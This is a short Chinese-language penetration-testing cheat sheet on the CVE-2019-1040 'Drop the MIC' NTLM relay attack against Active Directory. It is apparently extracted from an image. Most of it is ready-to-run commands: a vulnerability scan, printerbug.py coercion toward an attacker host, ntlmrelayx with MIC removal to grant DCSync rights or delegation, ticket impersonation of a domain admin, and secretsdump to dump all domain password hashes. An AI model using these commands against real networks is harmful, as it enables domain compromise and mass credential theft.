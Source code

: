 	Drop the MIC
	CVE-2019-1040 漏洞使得修改 NTLM 身份验证数据包而不会使身份验证失效成为可能，从而使攻击者能够删除阻止从 SMB 中继到 LDAP 的标志
	https://github.com/fox-it/cve-2019-1040-scanner
	使用上面的脚本检查漏洞
	>python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'
	[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
	[*] Target TARGET is not vulnerable to CVE-2019-1040 (authentication was rejected)
	使用任何 AD 帐户，通过 SMB 连接到受害者 Exchange 服务器，并触发 SpoolService 错误。攻击者服务器将通过 SMB 连接回您，可以使用修改后的 ntlmrelayx 版本将其中继到 LDAP。使用中继的 LDAP 身份验证，将 DCSync 权限授予攻击者帐户。攻击者帐户现在可以使用 DCSync 转储 AD 中的所有密码哈希
	TERM1> python printerbug.py testsegment.local/username@s2012exc.testsegment.local <attacker ip/hostname>
	TERM2> ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
	TERM1> secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc
	使用任何 AD 帐户，通过 SMB 连接到受害者服务器，并触发 SpoolService 错误。攻击者服务器将通过 SMB 连接回您，可以使用修改后的 ntlmrelayx 版本将其中继到 LDAP。使用中继的 LDAP 身份验证，将受害者服务器的基于资源的约束委派权限授予攻击者控制的计算机帐户。攻击者现在可以作为受害者服务器上的任何用户进行身份验证。
	创建一个新的机器帐户
	TERM1> ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support 
	TERM2> python printerbug.py relaytest.local/username@second-dc-server 10.0.2.6
	TERM1> getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD' -impersonate DOMAIN_ADMIN_USER_NAME
	使用票据连接
	export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
	secretsdump.py -k -no-pass second-dc-server.local -just-dc